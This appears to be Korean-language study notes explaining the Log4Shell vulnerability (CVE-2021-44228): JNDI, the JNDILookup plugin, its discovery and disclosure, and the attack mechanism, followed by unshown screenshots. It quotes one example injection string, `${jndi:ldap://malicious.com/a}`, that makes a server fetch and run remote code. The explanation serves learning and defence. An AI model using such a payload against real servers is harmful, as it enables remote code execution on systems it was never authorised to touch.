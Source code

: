 JNDI는 자바에서 디렉토리를 이용하여 데이터를 호출할 수 있게 해주는 디렉토리 서비스(Directory Service)다. JNDI는 다양한 디렉토리 서비스를 이용할 수 있게 하는 CORBA COS, Java RMI Registry, LDAP등의 SPI를 제공한다. 공격자는 LDAP URL을 컨트롤하여 자신의 통제 하에 Java 프로그램을 실행시켜 오브젝트를 로드할 수 있게 되는데 CVE-2021-44228 취약점은 이점을 공격에 활용하게 된다.

Apache Log4j 사태의 포문을 연 CVE-2021-44228 취약점은 2013년 Log4j2 version 2.0-beta9부터 도입된 ‘JNDILookup plugin(LOG4J2-313)’기능을 활용해 JNDI가 ‘${jndi}’명령에 특정 서식이 포함된 로그 메시지를 받게되면 JNDI Injection이 발생되는 취약점이다.

**JNDI(Java Naming and Directory Interface)**

- Java프로그램이 디렉토리를 통해 데이터(Java객체형태)를 찾을 수 있도록 하는 디렉토리 서비스
- Java 애플리케이션이 조회를 수행하고 LDAP, RMI, DNS 등과 같은 프로토콜을 사용하여 Java 객체를 검색할 수 있도록 하는 Java API
- 애플리케이션이 RMI 레지스트리에 등록된 원격 객체 또는 LDAP와 같은 디렉토리 서비스와 상호 작용할 수 있는 API를 제공

- **발견 및 공개**
    - **발견**: 2021년 11월 24일, 중국의 보안 연구원인 Chen Zhaojun이 처음으로 이 취약점을 발견하여 Apache Software Foundation에 보고.
    - **공개**: 2021년 12월 9일, Apache Software Foundation이 공식적으로 CVE-2021-44228로 명명된 이 취약점을 공개.
- **취약점의 본질**
    - Log4j는 자바 기반의 로깅 유틸리티로, 애플리케이션의 로그를 기록하는 데 널리 사용된다.
    - 이 취약점은 Log4j 2.x 버전에서 발생하며, 특정 로그 메시지를 처리할 때 JNDI(Java Naming and Directory Interface)를 통해 원격 코드를 실행할 수 있도록 허용한다.
    - 공격자는 악성 페이로드를 포함한 특수한 문자열을 로그에 기록하게 하여, 서버가 이 문자열을 처리할 때 원격에서 악성 코드를 다운로드하고 실행하게 만들 수 있다.
- **공격 방식**
    - 공격자는 로그 메시지 또는 로그 매개변수에 `${jndi:ldap://malicious.com/a}`와 같은 문자열을 포함시킨다.
    - Log4j가 이 문자열을 처리할 때, JNDI를 통해 지정된 URL에서 악성 코드를 다운로드하고 실행하게 된다.
    - 이로 인해 원격 코드 실행(RCE) 공격이 가능해진다.

---

1.

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/9bf36ad3-0719-431a-b1e2-3f429aeb690d/cea34b66-c870-48bb-a19d-5452b695e551/Untitled.png)

2.

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/9bf36ad3-0719-431a-b1e2-3f429aeb690d/c587b428-8c7d-4325-aea6-1cf8d99c0645/Untitled.png)

3.

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/9bf36ad3-0719-431a-b1e2-3f429aeb690d/fdef0af1-3f71-4cc5-9239-76ba3e86f9c0/Untitled.png)

4.

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/9bf36ad3-0719-431a-b1e2-3f429aeb690d/084a401f-9f9f-4fbf-95c5-0f2366050081/Untitled.png)
